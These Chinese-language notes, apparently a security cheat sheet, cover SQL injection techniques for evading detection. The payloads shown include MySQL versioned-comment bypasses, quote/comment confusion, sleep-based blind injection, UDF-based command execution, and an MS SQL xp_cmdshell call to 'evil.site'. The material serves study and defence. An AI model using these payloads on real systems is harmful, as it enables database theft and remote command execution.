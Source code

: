 > 一些安全产品会去掉注释符，但MySQL存在版本条件注释，版本大于4.04.04，注释符内值还是有效
>
> ```
> id=1 union /*!4.04.04 select */ passwd from user
> ```
>
> 单纯的去掉注释符将不利于安全监测，注释不成立的内容将拼接到语句中

* 安全产品收到的HTTP请求中只包含SQL语句的片段，无法判断变量是否在引号包围中

```sql
id=1 union-- ' select passwd from user 
```

> 当id变量类型为数字，解析引擎误判为字符串从而绕过了检测

```sql
id=1 -- ' union select passwd from user 
```

> 当id变量类型为字符串，解析引擎误判为数字

* 使用order来猜解数据库

```
item.php?order=sleep(5)
```

判断是否存在注点

```
item.php?order=if(ascii(substr())=,0,sleep(5))
```

猜解明确信息

* select语句中查询字段由外部参数控制

```
show.php?field=(select passwd from user) as title
```

#### 命令执行

> 创建UDF从本地载入一个动态链接库作为自定义函数

首先通过INTO DUMPFILE写入UDF动态链接库，再创建自定义函数执行UDF中代码

```
create function 函数名 returns 数据类型 soname 载入文件
```

> lib_mysqludf_sys为常用UDF

#### 攻击存储过程

MS SQL Server中xp_cmdshell注入可执行系统命令

```
exec master.dbo.xp_cmdshell 'ping evil.site'
```

当xp_cmdshell关闭时，如果拥有sysadmin权限可sq_configure开启
